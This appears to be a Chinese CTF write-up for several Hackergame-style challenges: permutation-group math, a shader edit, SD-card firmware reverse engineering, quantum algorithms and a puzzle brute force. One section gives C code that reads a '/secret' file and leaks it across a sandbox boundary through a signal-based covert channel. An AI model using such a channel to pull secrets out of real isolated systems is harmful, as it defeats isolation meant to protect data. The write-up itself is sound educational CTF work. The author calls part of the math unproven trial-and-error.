        return solve_congruence_eqs(congruence_eqs) + 1
    except:
        return None
```


### 求置换群上阶最大 (周期最长) 的一个置换:

由于一个置换的阶等于所有组成它的轮换的长度 (轮换的阶等于其长度) 的最小公倍数. 我们设置换群 $A_n$ 上的一个置换 $a$ 为最大阶元素, 置换 $a$ 可以分解成 $m$ 个长度不为 1 的轮换和 $m'$ 个长度为 1 的轮换, 第 $i$ 个轮换长度为 $a_i$. 则该问题等价于最优化问题: 已知 $n$, $\sum_{i=0}^m{a_i} \le n$ (该式原始形式为 $m' + \sum_{i=0}^m{a_i} = n$, $m' \le n$. 由于所有长度为 1 的轮换都不会对置换的阶产生影响, 为了简化后续表示, 这里直接采用简化后的形式), $\text{maximize} \ \text{lcm}(a_1, a_2, \dots, a_k)$.

若对于某组可行解 $x$, $\exist x_k$ 使得 $x_k$ 不是素数或素数幂, 则可以对 $x_k$ 进行质因数分解: $x_k = \prod_{i=0}^r p_i^{\alpha_i}$. 由于 $x = (x_1, x_2, \dots, x_k, \dots, x_m)$ 是一组可行解并且 $\text{lcm}(\prod_{i=0}^r p_i^{\alpha_i}) = \text{lcm}(p_1^{\alpha_1}, p_2^{\alpha_2}, \dots, p_r^{\alpha_r})$, 则 $x' = (x_1, x_2, \dots, x_{k-1}, p_1^{\alpha_1}, p_2^{\alpha_2}, \dots, p_m^{\alpha_m}, x_{k+1}, \dots, x_m)$ 也是一组可行解. 因此一定存在一组可行解 $x''$ 使得 $\forall x''_i$ 有且仅有一个质因子. 不妨令 $x'' = (p_1^{\alpha_1}, p_2^{\alpha_2}, ..., p_m^{\alpha_m})$, $p_i$ 为质数 (注意这里的 $p_i$ 和 $\alpha_i$ 不是 $x'$ 中的 $p_i$ 和 $\alpha_i$ ), 则有 $\text{lcm}(x'') = \text{lcm}(p_1^{\alpha_1}, p_2^{\alpha_2}, ..., p_m^{\alpha_m}) = \prod_{i=0}^m {p_i ^ {\alpha_i}}$. 

因此该问题可以进一步转化为: 求一组 $\alpha$ 和 $p$, 使得在 $\sum_{i=0}^m{p_i^{\alpha_i}} \le n$ 的约束下最大化 $\prod_{i=0}^m {p_i ^ {\alpha_i}}$.

如果你是一个 OIer, 这时或许能够**敏锐**地察觉到这个问题其实就是一个带[路径记录](https://oi-wiki.org/dp/knapsack/#%E5%AE%9E%E7%8E%B0_4)的[完全背包问题](https://oi-wiki.org/dp/knapsack/#%E5%AE%8C%E5%85%A8%E8%83%8C%E5%8C%85)的变种, 可以用 DP 来解. 设 $f_{i, j}$ 为只使用前 $i$ 个质数时, 容量 ($\sum_{i=0}^m{p_i^{\alpha_i}}$) 为 $j$ 的背包可以达到的最大价值 ($\prod_{i=0}^m {p_i ^ {\alpha_i}}$). 状态转义方程如下:
$$
f_{i,j} = \max_{k=0}^{+\infin}(f_{i-1}, f_{i, j-p_i^k} p_i^k)
$$

这里单独列出 dp 部分的参考代码:

```python
def max_order(n: int, primes: List[int] = None) -> int:

    if primes is None:
        primes = primerange(1, n)

    dp: NDArray = np.ones((len(primes), n + 1), dtype='object')
    max_k: int = int(log2(n))

    for i, prime in enumerate(primes):
        for j in range(n + 1):
            if i == 0 and prime == 2:
                dp[i][j] = 0 if j < 2 else 2 ** int(log2(j))
                continue
            if j < prime:
                dp[i][j] = dp[i - 1][j]
                continue
            for k in range(1, max_k + 1):
                value: int = prime ** k
                if j - value >= 0:
                    dp[i][j] = max(dp[i - 1][j], dp[i - 1][j - value] * value)

    return dp[len(primes) - 1][n]
```

解出完这个 dp 之后就可以顺利得到该置换群上的最大阶元素的阶, 对阶数进行质因数分解就可以得到组成具体的最大阶元素的各个轮换的长度, 有了轮换长度就可以构造出所有同构的最大阶元素, 并且如果最后长度为 1 的最大阶元素数量大于 1, 则可以构造出不同构的最大阶元素.

#### 但是,

这道题并不是让我们求最大阶元素, 而是要求构造两个置换求一个比最大阶还大的离散对数!

不难想到, 构造的这两个置换一定是不同构的而且阶数都很大, 这样我们就可以通过使用第二问的方法求出两个解, 再用这两个阶列出两个线性同余方程, 解出来就有可能是最终答案. (当然如果答案没有设置 upperbound 的话需要用不止两个不同构的置换列线性同余方程组来解).

(***警告: 以下内容经过没有严格的数学证明且包含一些我自己都不知道怎么试出来的黑魔法, 仅仅能保证在大多数情况下算出正确的结果来, 不保证 100% 正确, 如果后续想出了更好的方法或有完备的数学证明的话会把这部分改掉***)

这里我一开始尝试构造了最大阶元素和次大阶元素, 发现当答案略大于最大阶数的时候还可以解, 一旦再大一些就解不了了. 这里我大概想到了是因为这两个置换中的轮换长度有太多相同的质因数, 因此尝试将质数 shuffle 之后分成两个集合分别只用某个集合中的质数构造阶数相对大的元素, 结果确实会比之前好很多, 正确率已经可以达到 50% 了, 但还是无法达到要求 (毕竟要 15 次). 这时候我在瞎试的过程中我偶然找到了一种能够满足要求的情况 (依然是分成两个集合, 只是存在顺序问题, 如代码中所示), 正确率可以到达 80% 以上, 由于时间原因没有进一步深究, 后续有时间的话再去尝试推一下正解并改掉这部分内容. 完整代码如下, 供参考:

```python
import numpy as np
import functools

from math import log2
from random import randint, shuffle
from numpy.typing import *
from sympy import primerange


def construct_perm_with_cycles(cycle_lengths: List[int]) -> PermutationElement:
    ptr: int = 0
    perm_list: List[int] = list()

    for length in cycle_lengths:
        for i in range(length):
            perm_list.append(ptr + (i + 1) % length + 1)
        ptr += length

    return PermutationElement(len(perm_list), perm_list)


def max_order(n: int, primes: List[int] = None) -> int:

    if primes is None:
        primes = primerange(1, n)

    dp: NDArray = np.ones((len(primes), n + 1), dtype='object')
    max_k: int = int(log2(n))

    for i, prime in enumerate(primes):
        for j in range(n + 1):
            if i == 0 and prime == 2:
                dp[i][j] = 0 if j < 2 else 2 ** int(log2(j))
                continue
            if j < prime:
                dp[i][j] = dp[i - 1][j]
                continue
            for k in range(1, max_k + 1):
                value: int = prime ** k
                if j - value >= 0:
                    dp[i][j] = max(dp[i - 1][j], dp[i - 1][j - value] * value)

    return dp[len(primes) - 1][n]


@functools.cache
def perm_cycles_by_order(order: int) -> List[int]:
    cycles: List[int] = list()

    for prime in primes:
        exponent = 0
        while order % prime == 0:
            order //= prime
            exponent += 1
        if exponent != 0:
            cycles.append(prime ** exponent)

    return cycles


def max_order_perm_by_primes(n: int, primes: List[int]) -> PermutationElement:
    cycles: List[int] = perm_cycles_by_order(max_order(n, primes))
    return construct_perm_with_cycles(cycles + [1] * (n - sum(cycles)))


def get_perm_pair(n: int) -> Tuple[PermutationElement, PermutationElement]:
    primes: List[int] = list(primerange(1, n))

    # BLACK MAGIC!!! DOT TOUCH THE FOLLOWING 3 LINES
    shuffle(primes)
    perm0: PermutationElement = max_order_perm_by_primes(n, list(set(primes[:len(primes) // 2])))
    perm1: PermutationElement = max_order_perm_by_primes(n, list(set(primes[len(primes) // 2:])))

    return perm0, perm1
```


## 光与影

因为之前用 GLSL 写过 Minecraft Shader 的缘故, 对这一套玩意比较熟悉了. 很容易就能发现这个 `t5SDF` 函数其实是画了一个矩形区域, 而且 z 轴座标还比较小, 直接改掉就可以了.

```glsl
float t5SDF(vec3 p, vec3 b, float r) {
  vec3 q = abs(p) - b;
  return length(max(q,0.0)) + min(max(q.x,max(q.y,q.z)),0.0) - r;
}
```

```glsl
float t1 = t1SDF(pTO.xyz);
float t2 = t2SDF((mk_trans(-45.0, 0.0, 0.0) * pTO).xyz);
float t3 = t3SDF((mk_trans(-80.0, 0.0, 0.0) * pTO).xyz);
float t4 = t4SDF((mk_trans(-106.0, 0.0, 0.0) * pTO).xyz);
// float t5 = t5SDF(p - vec3(36.0, 10.0, 15.0), vec3(30.0, 5.0, 5.0), 2.0);

// float tmin = min(min(min(min(t1, t2), t3), t4), t5);
float tmin = min(min(min(t1, t2), t3), t4);
return tmin;
```




## 片上系统

### 引导扇区

用 PulseView 切到 SPI 模式把 hex 数据 dump 下来分析即可.




### 操作系统

根据[这篇文章](https://www.riscv-mcu.com/community-topic-id-823.html)的描述:

> 读步骤主要分为两步，第一步首先发送一条指令，如果发送是CMD17，则表示是对单块进行读操作，如果是CMD18，则表示对多块进行读操作，这两条指令会返回0X00。第二步，首先接受数据开始位：fe，然后接受512Bytes数据和2Bytes的CRC校验。根据这个时序就能够完成对SD卡一个扇区或者多个扇区的读操作，而写操作是通过上位机写入，此次项目并没有用硬件实现。

在信号 dump 出的原始数据中一个扇区的数据一定以 `0xfe` 开头, 以 2 bytes 的 CRC 校验码结尾, 我们那第一个扇区举例, 下图中表蓝的字节就是第一个扇区的数据, 前面的 `FE` 是开始位, `B0 E5` 是校验码, 这样我们就可以如法炮制 dump 出 SD 卡的原始数据了.



SD 卡的完整数据如下, 可以直接 decode 成 binary 去分析:

```
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
```

拿到 binary 之后先用 r2 反汇编:



不难分析出第一个分区其实是个 boot sector, 负责将 "操作系统" 的代码 copy 到 `0x20000` 处. 后面的代码就有点群魔乱舞起来了, r2 就不是那么好使了, 我们这里用 Binary Ninja 反编译一下 (注: IDA Pro 在做这种单文件短程序逆向的时候往往不是那么好使, 这里强烈推荐比 IDA 要更方便且更加 user-friendly 的 Binary Ninja, 不过缺点是功能不如 IDA 全而且 RISCV 要装插件):



多读几遍这段反汇编的代码, 结合题目描述不难发现, 在这段代码中, `0x930000` 应该是串口的映射地址, 所有写入这个地址的数据都应该会被输出到串口中去. 同时我们可以定位到输出 `flag{` 和 `}`, 不难发现其中 `sub_20018` 被调用了三次:



这个函数转换成 C 语言代码是这样的:

```c
int sub_20018(unsigned a1)
{
    unsigned a2 = 0x1c;
    do {
        int a42 = (int) (a1 >> a2 & 0xf);
        int a31 = 0x30;
        if (a42 > 9) {
            a31 = 0x57;
        }
        a31 += a42;
        putchar(a31);
        a2 -= 4;
    } while (a2 != 0xfffffffc);
}
```

执行一边就会发现它的作用是以字符串形式输出参数 a1 的 hex value. 如果把 binary ninja 分析出的参数带入, 会得到一个错误的 flag. 这时候换个工具就好了:



最终拿到的 flag 是 `flag{20001018feadae83000000e0}`


## 看不见的彼方

一开始以为是个 chroot escape, 但其实是用 signal 通信, 想到了就很好处理了:

```c
#include <signal.h>
#include <stddef.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// compile sender: gcc a.c -DSEND --static -o sender
// compile receiver: gcc a.c -DRECV --static -o receiver

#define SIG_BIT0    SIGUSR1
#define SIG_BIT1    SIGUSR2

void send(pid_t pid, void* data, size_t len)
{
    uint8_t* bytes = (uint8_t*) data;
    for (int i = 0; i < len; i++) {
        for (int b = 0; b < 8; b++) {
            if (((bytes[i] >> b) & 1) == 0) {
                kill(pid, SIG_BIT0);
            } else {
                kill(pid, SIG_BIT1);
            }
            usleep(10);
        }
    }
    kill(pid, SIGTERM);
}

char buf[1024];

size_t bit_idx = 0;

#define SET_BIT(byte, i)    (byte) |= (1 << (i))
#define WAITING             while (1) continue

void recv_sigbit0()
{
    bit_idx++;
}

void recv_sigbit1()
{
    SET_BIT(buf[bit_idx / 8], bit_idx % 8);
    bit_idx++;
}

void recv_sigterm()
{
    puts(buf);
    exit(0);
}

#define RECV_PID 9

int main()
{
#ifdef SEND
    sleep(1);
    FILE* fp = fopen("/secret", "r");
    fscanf(fp, "%s", buf);
    send(RECV_PID, buf, 64);
#endif
#ifdef RECV
    signal(SIG_BIT0, recv_sigbit0);
    signal(SIG_BIT1, recv_sigbit1);
    signal(SIGTERM, recv_sigterm);
    WAITING;
#endif
}
```


## 量子藏宝图

去年就在想为啥没有量子计算的题目, 这就不是中科大的专长吗, 今年这不就有了嘛 OwO

第一问是 BB84 协议的 QKD, 类似与经典密码学里的 Diffie-Hellman 密钥协商. 简单概括一下就是 Alice 和 Bob 之间有一条量子信道和一条经典信道, Alice 会生成一串 $|0\rangle$ 或 $|1\rangle$ 量子态的随机的 qubit 串, 再随机的对其中的一些 qubit 施加 Hadamard Gate 使其中一些 qubit 变成 $|+\rangle$ 或 $|-\rangle$ (也就是随机选取了一组测量的基底). 这串 qubit 会通过量子信道传递给 Bob, Bob 则会随机选择以 $|0\rangle, |1\rangle$ 或 $|+\rangle, |-\rang$ 为基底对每个 qubit 进行测量, 然后在将自己选择的基底通过经典信道告诉 Alice, Alice 会通过经典信道告诉 Bob 哪些基底选择是正确的, Bob 则保留所有使用正确基底的测量结果作为密钥, Alice 也可以通过 Bob 向她发送的基底的信息知道自己应该保留哪些 bit 作为密钥. 这时 Alice 和 Bob 就有了一份相同的密钥而不会被第三者知道. 想要更深入学习的可以参考 Qiskit 的 [Quantum Key Distribution](https://qiskit.org/textbook/ch-algorithms/quantum-key-distribution.html) 这一章节.

第二问是使用 Bernstein-Vazirani 算法解码一个长度为 $n$ 的 01 串 $s$, 具体算法可以去[这里](https://qiskit.org/textbook/ch-algorithms/bernstein-vazirani.html)学习. 在构造 Oracle 的时候会将每一个对应到 $s$ 中的 bit 为 1 的 qubit 作为 control bit 对第 $n$ 个 qubit 施加 CNOT. 题目给出的图中跟用这种方法构造出来的 Oracle 不一样的点在于图中的 Oracle 部分多了一些成对出现的 Pauli-X, Pauli-Z 和 Hadamard Gate, 但由于这些 Gate 的共轭转置都是它自身, 所以不会影响最后测量前的量子态. 另外这里给出测量前量子态的数学表示和构造线路的 qiskit 代码供参考.
$$
\frac{1}{2^n}\sum_y \sum_x (-1)^{f(x) + xy}|y\rangle|-\rangle = \frac{1}{2^n}\sum_y \sum_x (-1)^{x (s \otimes y)}|y\rangle|-\rangle
$$

```python
# don't forget the auxiliary qubit (n + 1)
for i in range(n + 1):
    circuit.h(i)
circuit.z(n)

circuit.barrier()

# oracle
for i in range(n):
    if s[i] == '1':
        circuit.cx(i, n)

circuit.barrier()

# apply hadamard after oracle
for i in range(n):
    circuit.h(i)

# measurement
for i in range(n):
    circuit.measure(i, i)
```


## 企鹅拼盘

把游戏的代码砍的只剩算法逻辑之后大力出奇迹!

```python
import json


class Board:
    def __init__(self):
        self.b = [[i*4+j for j in range(4)] for i in range(4)]

    def _blkpos(self):
        for i in range(4):
            for j in range(4):
                if self.b[i][j] == 15:
                    return (i, j)

    def reset(self):
        for i in range(4):
            for j in range(4):
                self.b[i][j] = i*4 + j

    def move(self, moves):
        for m in moves:
            i, j = self._blkpos()
            if m == 'L':
                self.b[i][j] = self.b[i][j-1]
                self.b[i][j-1] = 15
            elif m == 'R':
                self.b[i][j] = self.b[i][j+1]
                self.b[i][j+1] = 15
            elif m == 'U':
                self.b[i][j] = self.b[i-1][j]
                self.b[i-1][j] = 15
            else:
                self.b[i][j] = self.b[i+1][j]
                self.b[i+1][j] = 15

    def __bool__(self):
        for i in range(4):
            for j in range(4):
                if self.b[i][j] != i*4 + j:
                    return True
        return False


class BPApp:
    board = Board()
    pc = 0

    def __init__(self, bitlength, branches):
        self.bitlength = bitlength
        self.branches = branches
        self.inbits = []

    def watch_pc(self, index):
        self.board.reset()
        for branch in self.branches[:index]:
            self.board.move(branch[1] if self.inbits[branch[0]] else branch[2])

    def action_reset(self):
        self.pc = 0
        self.watch_pc(self.pc)

    def action_last(self):
        self.pc = len(self.branches)
        self.watch_pc(self.pc)

    def action_next(self):
        if self.pc < len(self.branches):
            self.pc += 1
        self.watch_pc(self.pc)


if __name__ == '__main__':

    filename = f'b16_obf.json'
    with open(filename) as f:
        branches = json.load(f)

    app = BPApp(bitlength=16, branches=branches)

    for num in range(65536):
        bits = [(num >> i) & 1 for i in range(16)]
        app.action_reset()
        app.inbits = bits
        app.action_last()

        if num % 10 == 0:
            print(f'checking {num}')

        if app.board:
            print(num, bits, end='\n')
            exit(0)
```


## 火眼金睛的小 E

既然题目中都提到 bindiff 了, 那显然不是用 bindiff (doge).

第一问这种小的 ELF 文件用 Binary Ninja 最好使, 肉眼看几遍就出来了.

第二问感觉跟去年[超 OI 的 Writeup 模拟器](https://github.com/USTC-Hackergame/hackergame2021-writeups/blob/master/official/%E8%B6%85%20OI%20%E7%9A%84%20Writeup%20%E6%A8%A1%E6%8B%9F%E5%99%A8/README.md)做法类似, 但没时间了, 就直接放掉了.
